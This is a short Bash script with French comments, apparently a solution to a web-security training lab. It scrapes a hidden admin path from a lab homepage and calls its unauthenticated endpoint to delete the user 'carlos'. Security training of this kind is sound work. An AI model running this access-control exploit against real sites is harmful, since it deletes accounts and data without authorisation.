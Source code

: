 #!/bin/bash

# Usage: ./unprotected_admin_unpredictable.sh <LAB_URL>
if [ $# -ne 1 ]; then
    echo "Usage: $0 <LAB_URL>"
    exit 1
fi

LAB_URL="$1"

echo "[*] Analyse de la page d'accueil pour trouver l'URL admin..."
homepage=$(curl -sk "$LAB_URL")

# Extraction de l'URL admin à partir d'un script JS ou d'un lien (ex: /admin-xxxxxx)
admin_path=$(echo "$homepage" | grep -Eo "/admin-[a-zA-Z0-9]+" | head -n1)

if [ -z "$admin_path" ]; then
    echo "[-] Impossible de trouver le chemin admin dans la page d'accueil."
    exit 1
fi

echo "[+] Chemin admin trouvé : $admin_path"

# Construction directe du lien de suppression (même si non affiché dans le HTML)
delete_url="$LAB_URL$admin_path/delete?username=carlos"
echo "[*] Tentative de suppression de l'utilisateur carlos via : $delete_url"
curl -sk "$delete_url" -o /dev/null

echo "[+] Requête envoyée. Vérifiez l'interface du lab pour la validation."
